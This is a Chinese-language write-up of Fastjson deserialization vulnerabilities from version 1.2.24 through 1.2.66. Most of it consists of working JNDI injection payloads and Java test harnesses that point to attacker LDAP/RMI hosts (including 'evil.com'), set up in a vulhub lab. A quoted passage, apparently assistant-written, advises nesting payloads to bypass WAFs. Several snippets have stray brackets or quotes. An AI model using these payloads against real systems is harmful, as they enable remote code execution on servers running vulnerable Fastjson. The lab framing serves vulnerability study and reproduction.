








# Fastjson各版本漏洞

环境：

- Java-chains工具
- jdk1.8.0_65

## Fastjson 1，2，24

工具配置：



poc

```java
{  
  "@type":"com.sun.rowset.JdbcRowSetImpl",  
  "dataSourceName":"ldap://127.0.0.1:1234/Exploit",  
  "autoCommit":true  
}
```

本地测试



运行后弹出计算器

原理链已经跟踪过

靶场：

Fastjson 1.2.24 漏洞靶场可通过**vulhub**快速搭建，该环境集成了受影响的 Java 应用与 Fastjson 1.2.24，便于安全研究与复现 CVE-2017-18349。

### 环境搭建步骤

| 步骤 | 操作内容                  | 关键命令 / 参数                                  | 说明                       |
| ---- | ------------------------- | ------------------------------------------------ | -------------------------- |
| 1    | 克隆 vulhub 仓库          | `git clone https://github.com/vulhub/vulhub.git` | 包含各漏洞模块             |
| 2    | 进入 Fastjson 1.2.24 目录 | `cd vulhub/fastjson/1.2.24-rce`                  | 该模块用于复现 1.2.24 漏洞 |
| 3    | 启动容器                  | `docker-compose up -d`                           | 镜像默认映射 80→8090       |
| 4    | 查看容器状态              | `docker ps`                                      | 确认容器运行且端口映射正确 |
| 5    | 访问靶场                  | 浏览器 /`curl` `http://localhost:8090`           | 出现 JSON 响应表示环境就绪 |

搭建完成后用bp抓包测试






在java-chains工具中

配置命令



然后生成，并复制ldap

在Bp中测试



查看容器



成功创建文件


> ### 🔍 为何常用嵌套结构
>
> 在BurpSuite测试中看到的Payload：
>
> ```
> {
>     "shell":{
>         "@type":"com.sun.rowset.JdbcRowSetImpl",
>         "dataSourceName":"ldap://127.0.0.1:50389/d81231",
>         "autoCommit":true
>     }
> }
> ```
>
> 之所以采用这种嵌套结构，主要有以下原因：
>
> 1. **适应目标应用的JSON结构**：很多Web应用的后端代码并非直接反序列化整个JSON输入，而是**期望一个特定的JSON结构**。它可能先解析外层JSON，然后提取某个特定字段的值（如这里的 `"shell"`）再进行后续处理（如用Fastjson解析该字段值的字符串）。如果你的Payload不符合它预期的结构，攻击载荷可能根本无法被Fastjson解析。
> 2. **规避WAF检测**：将恶意载荷嵌套在一层结构里，有时可以**绕过一些简单的WAF（Web应用防火墙）规则**。因为WAF可能只检查JSON的第一层结构，或者对嵌套数据的检测不够深入。
>
> ### ⚠️ 直接提交载荷的问题
>
> 另一种形式：
>
> ```
> {
>     "@type":"com.sun.rowset.JdbcRowSetImpl",
>     "dataSourceName":"ldap://127.0.0.2:50389/d81231",
>     "autoCommit":true
> }
> ```
>
> 这种直接的Payload，**只有在服务端代码直接对接收到的整个JSON字符串进行反序列化时才有用**。如果服务端代码期望的JSON结构与此不符（例如，它期望JSON有一个根键），那么这种Payload可能会引发解析错误，导致攻击无法成功。
>
> ### 💡 测试建议
>
> 在实际渗透测试中：
>
> - **灵活尝试**：如果直接Payload不成功，可以尝试将其**嵌套**到不同的键中，如 `{"data": {...}}`, `{"obj": {...}}`, `{"input": {...}}`等。键名有时可以尝试猜测，或者通过分析应用响应、常见命名习惯获得线索。
> - **仔细分析响应**：注意应用返回的**错误信息**（如果有），它们有时会提示你期望的JSON结构是什么。
> - **使用工具辅助**：BurpSuite插件如 **FastjsonScan** 可以帮助你探测Fastjson漏洞并生成Payload，它们通常会考虑多种结构。
> - **注意高版本绕过**：对于Fastjson 1.2.68及更高版本，`AutoType`功能可能默认受到更严格的限制或已关闭，需要研究特定的绕过方法。
>
> ### 📌 总结
>
> 简单来说，在BurpSuite中使用嵌套结构的Payload，主要是为了“投其所好”，让恶意载荷能顺利被目标应用处理并送到Fastjson解析器面前。直接Payload则适用于更“原始”的解析场景。
>
> 希望这些信息能帮助你更好地理解Fastjson漏洞测试。如果你还有其他问题，欢迎随时提出。

查看项目源码



在 setUser 方法中，应用直接接收用户传入的 JSON 数据并进行反序列化为 User 对象，如果 FastJSON 版本存在漏洞，攻击者可以构造恶意的 JSON 数据来利用这个反序列化过程。

而查看pom.xml文件，发现使用fastjson1.2.24存在漏洞，所以被利用

## Fastjson1.2.25

***参考文章：https://mp.weixin.qq.com/s/WU2cC5AXAQA_XF7dKxiEWQ***

```java
package com.example.fastjson.Fastjson1_2_24;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Fastjson24 {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        // 修正后的payload格式
        String payload = "{    \"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",  " +
                "  \"dataSourceName\":\"ldap://192.168.32.128:50389/c51b9b\",    " +
                "\"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

poc

```json
{
  "a": {
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "rmi://<攻击机IP>:<端口>/Exploit",
    "autoCommit": true
  }
}
```

### Fastjson1.2.42

```java
package com.example.fastjson.Fastjson1_2_24;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Fastjson24 {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        // 修正后的payload格式
        String payload = "{    \"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",  " +
                "  \"dataSourceName\":\"ldap://192.168.32.128:50389/c51b9b\",    " +
                "\"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

poc

```
{   
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",    
	"dataSourceName":"ldap://127.0.0.1:1234/Exploit",    
	"autoCommit":true  
}
```

## Fastjson 1.2.43

```java
package com.example.fastjson.Fastjson1_2_24;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Fastjson24 {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        // 修正后的payload格式
        String payload =
                "{\n" +
                "    \"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[,\n" +
                "    {\"dataSourceName\":\"ldap://192.168.32.128:50389/c51b9b\",\n" +
                "    \"autoCommit\":true\n" +
                "}";
        JSON.parse(payload);
    }
}
```

poc

```json
{    
	"@type":"[com.sun.rowset.JdbcRowSetImpl"[,    
	{"dataSourceName":"ldap://127.0.0.1:1234/Exploit",    
	"autoCommit":true
}
```

## Fastjson 1.2.45

`fastjson1.2.45`，此版本升级后，存在一个`黑名单匹配绕过`，绕过类

org.apache.ibatis.datasource.jndi.JndiDataSourceFactory

利用条件如下

1. 目标服务端存在`mybatis`的jar包。
2. 版本需为 `3.x.x ～ 3.5.0`
3. autoTypeSupport属性为true才能使用。（fastjson >= 1.2.25默认为false）

#### 复现

pom.xml中添加mybatis的依赖

```xml
<dependency>
    <groupId>org.mybatis</groupId>
    <artifactId>mybatis</artifactId>
    <version>3.4.6</version>
</dependency>
```

测试代码

```java
package com.example.fastjson.Fastjson1_2_24;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;


import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Fastjson45 {
    public static void main(String[] args) {
        // 启用AutoType支持
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

        // Fastjson 1.2.45 利用MyBatis的JndiDataSourceFactory进行漏洞利用
        String payload = "{\n" +
                "  \"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\n" +
                "  \"properties\":{\n" +
                "    \"data_source\":\"ldap://192.168.32.128:50389/93c3d0\"\n" +
                "  }\n" +
                "}";

        System.out.println("正在执行Fastjson 1.2.45漏洞测试...");
        System.out.println("Payload: " + payload);

        try {
            JSON.parse(payload);
            System.out.println("漏洞测试执行完成");
        } catch (Exception e) {
            System.out.println("执行过程中出现异常: " + e.getMessage());
        }
    }
}
```

POC

```
{  
  "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",  
  "properties":{  
    "data_source":"ldap://127.0.0.1:1234/Exploit"  
  }  
} 
```

## Fastjson 1.2.47

启动vulhub靶场

启动java-chains工具，

POC

ladp://

```json
{
    "aaa": {
        "@type": "java.lang.Class",
        "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "bbb": {
        "@type": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "ldap://127.0.0.1:1234/Exploit",
        "autoCommit": true
    }
}
```
rmi://

```json
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/Exploit",
        "autoCommit":true
    }
}
```

类似1.2.47

## Fastjson 1.2.62

Fastjson 1.2.62版本的漏洞利用需要满足以下条件：
需要开启AutoTypeSupport（已在现有代码中启用）
需要服务端存在xbean-reflect包
受JDK版本的限制
首先，需要在pom.xml中添加xbean-reflect依赖

```xml
        <dependency>
            <groupId>org.apache.xbean</groupId>
            <artifactId>xbean-reflect</artifactId>
            <version>4.15</version>
        </dependency>
```

代码

```java
package com.example.fastjson.Fastjson1_2_24;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Fastjson {
    public static void main(String[] args) {
        // 启用AutoType支持（Fastjson 1.2.62漏洞利用条件之一）
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

        // Fastjson 1.2.62 利用 org.apache.xbean.propertyeditor.JndiConverter 进行漏洞利用
        // 这个类在 xbean-reflect 包中（Fastjson 1.2.62漏洞利用条件之一）
        String payload = "{\n" +
                "  \"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\",\n" +
                "  \"AsText\":\"ldap://192.168.32.128:50389/026ec3\"\n" +
                "}";

        System.out.println("正在执行Fastjson 1.2.62漏洞测试...");
        System.out.println("Payload: " + payload);

        try {
            JSON.parse(payload);
            System.out.println("漏洞测试执行完成");
        } catch (Exception e) {
            System.out.println("执行过程中出现异常: " + e.getMessage());
        }
    }
}
```

POC

```json
{  "@type":"org.apache.xbean.propertyeditor.JndiConverter",  "AsText":"rmi://127.0.0.1:1099/exploit"}";
```

## Fastjson 1.2.66

Fastjson 1.2.66 在**默认配置下相对安全**，但如果存在以下情况，反序列化利用仍可能成功：

- 手动开启了 `AutoType`
- 存在可利用的 gadget 类
- 使用了不安全的 API

POC

```json
{  "@type":"org.apache.shiro.jndi.JndiObjectFactory",  "resourceName":"ldap://192.168.80.1:1389/Calc"  }
```

## Fastjson 1.2.80

参考文章：https://mp.weixin.qq.com/s/NNSqR3cDV1F3KnjUOw5Odw
